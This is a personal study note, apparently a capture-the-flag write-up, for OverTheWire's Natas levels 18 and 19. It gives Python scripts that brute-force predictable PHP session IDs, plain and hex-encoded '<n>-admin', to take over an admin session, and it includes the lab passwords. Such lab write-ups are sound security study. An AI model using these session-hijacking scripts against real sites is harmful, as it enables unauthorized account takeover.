 
2024-07-20 16:35

Source: #web #py #natas 

Tags: [[PHP]]
## Natas 18 

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR
we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

## Natas19

source code is similar to natas 18 the difference is that the `phpsessid` is  encoded in hex and the username is appended to the session id before encoding the whole .
eg. `45-admin` is encoded and used as the session id 

```
import requests
username = 'natas19'
password = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'

url = 'http://natas19.natas.labs.overthewire.org/'
session = requests.Session()

for i in range(641):
    print({"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()})

    response= session.get(url,cookies = {"PHPSESSID" : str("%d-admin" % i).encode('UTF-8').hex()},auth = (username,password))

    if("You are an admin" in response.text):
        print("got it", i)
        print(response.text)
        break
```

### TLDR

- we run a for loop ranging from 1 to 640 and we apply the loop in `<number>-admin` 
- where `<number>` is cycled through and the whole thing is encoded in hex 
- one of these encoded session id is gotta be the admin session id.
## Natas 20


### References
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid